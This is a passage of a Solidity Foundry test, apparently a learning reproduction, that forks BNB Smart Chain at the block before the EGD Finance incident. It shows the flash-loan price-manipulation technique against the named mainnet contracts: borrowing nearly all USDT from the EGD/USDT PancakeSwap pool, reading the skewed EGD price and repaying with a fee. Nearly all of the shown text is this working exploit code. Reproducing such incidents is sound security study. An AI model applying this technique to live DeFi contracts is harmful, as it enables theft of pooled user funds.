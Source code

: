 ```solidity
}

interface IEGD_Finance {
    function getEGDPrice() external view returns (uint256);
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);

    function balanceOf(address owner) external view returns (uint256);
}

//BSC_USDT合约地址
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
//EGD_Finance合约地址
address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
//攻击发生前的区块高度
uint256 constant blockheight = 20245522;

//LPs
IPancakePair constant EGD_USDT_LPPool = IPancakePair(
    0xa361433E409Adac1f87CDF133127585F8a93c67d
);

contract PriceManipulateTest is Test {
    IEGD_Finance egdFinance;

    function setUp() public {
    		//fork 攻击发生前的网络
        vm.createSelectFork("https://rpc.ankr.com/bsc", blockheight);
        egdFinance = IEGD_Finance(EGD_Finance);
        //假设我们的账户上有一些USDT
        deal(address(usdt), address(this), 30000 * 1 ether);
    }

    function testPrice() public {
        console2.log("edg price before:", egdFinance.getEGDPrice());
				
				//借出99.99%的USDT, 让USDT变得非常稀少
        uint256 borrowUSDT = (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
            9_999_999_925) / 10_000_000_000;
        EGD_USDT_LPPool.swap(0, borrowUSDT, address(this), "abcd");

        console2.log(
            "edg price after (i return the borrowed USDT back):",
            egdFinance.getEGDPrice()
        );
    }

    function pancakeCall(
        address,
        uint256,
        uint256 count1,
        bytes calldata
    ) public {
        console2.log(
            "edg price after (i borrowed huge USDT out):",
            egdFinance.getEGDPrice()
        );
        bool success = IERC20(usdt).transfer(
            address(EGD_USDT_LPPool),
            ((count1 * 10_500_000_000) / 10_000_000_000)
        ); //归还本金 + 5%手续费
```